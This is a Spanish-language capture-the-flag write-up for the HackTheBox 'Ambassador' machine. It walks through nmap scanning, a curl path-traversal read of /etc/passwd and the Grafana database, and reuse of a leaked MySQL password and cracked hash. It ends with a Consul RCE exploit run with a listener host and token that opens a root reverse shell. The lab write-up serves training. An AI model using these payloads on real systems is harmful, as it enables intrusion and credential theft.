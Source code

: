 ```yaml
---
layout: single
title: Ambassador - HackTheBox
excerpt: " The hack the box ambassador is a medium-level Linux Web Exploitation machine that has a few CVEs. "
date: 2022-12-20
classes: wide
header:
  teaser: /blog/assets/images/htb-writeup-ambassador/ambassador.png
  teaser_home_page: true
  icon: /blog/assets/images/htb.webp
categories:
  - hackthebox
tags:  
  - mysql
  - hashes
  - transversal
  - github
  - python
---
```


The hack the box ambassador is _a medium-level Linux Web Exploitation machine_ that has a few CVEs.

# Summary
- IP: 10.10.11.183
- Ports: 22,80,3000,3306
- OS: Linux (Ubuntu)
- Services & Applications:
	-  22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
	-  80 -> Apache httpd 2.4.41
	-  3000 -> ppp?
	-  3306 -> MySQL 8.0.30-0ubuntu0.20.04.2

# Recon
- Reconocimiento básico de puertos:

```bash
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

```bash
$sudo nmap -p22,80,3000,3306 -sCV 10.10.116.216 -oN targeted
``` 

- Búsqueda de directorios, pero no encontramos nada interesante; analizamos la web y tampoco hay nada relevante.
- Analizamos la web en el puerto 3000 y vemos un login de "Grafana", buscamos vulnerabilidades y encontramos una script en python la cual permite un LFI, analizamos el código y ejecutamos mediante un curl la parte que nos permite ejecutar el LFI:


```bash
$curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd | grep sh
```

- Confirmamos el LFI y hacemos una búsqueda básica de posibles vectores de ataque; intentamos descargar la base de datos que está por detrás de grafana usando el siguiente recurso:


```bash
$curl -s --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

- Abrimos el archivo ".db" con "sqlitebrowser" y analizamos la base de datos; vemos una tabla llamada "data-source", le hacemos un "table browse" y encontramos el usuario y contraseña para acceder a la base de datos de "grafana", lo hacemos:

```bash
$mysql -h10.10.11.183 -ugrafana -pdontStandSoCloseToMe63221!
```

- Buscamos información relevante:

```bash
show databes;
use whackywidget;
show tables;
select * from users;
```

- Encontramos el usuario "developer" con un hash, lo crackeamos en www.hashes.com y accedemos por SSH como "developer", y encontramos la primera flag.

# ESCALANDO PRIVILEGIOS:


- Haciendo una búsqueda típica, no encontramos nada que pueda usarse para escalar privilegios, así que buscamos de forma más rigurosa.

- En el directorio "/opt" encontramos una posible aplicación desarrollada en git llamada "my-app", entramos y buscamos archivos ocultos.

- Vemos un ".git" por lo que confirmamos que se trata de un desarrollo para github, ejecutamos el comando siguiente para verificar el log:

```bash
git log
```

- Vemos varios commits, analizamos el primero con:

```bash
git show 33a53ef9a207976d5ceceddc41a199558843bf3c
```

- Podemos ver un código en el que se involucra la función "consul" y un token que podríamos aprovechar ya que con un "ls -l" podemos ver que todo este aplicativo está gestionado por root; buscamos exploits para aprovechar esta función consul y encontramos el siguiente: [GatoGamer1155/Hashicorp-Consul-RCE-via-API: Exploit of RCE for gain reverse shell (bash) in Hashicorp Consul on Remote Command Execution via API (github.com)](https://github.com/GatoGamer1155/Hashicorp-Consul-RCE-via-API)

- Descargamos el exploit, lo pasamos a la máquina víctima, y lo ejecutamos poniéndonos en escucha en la máquina atacante:

```bash
$ python3 exploit.py --lhost 10.10.14.30 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

- Accedemos a una shell como root y vemos la última flag.
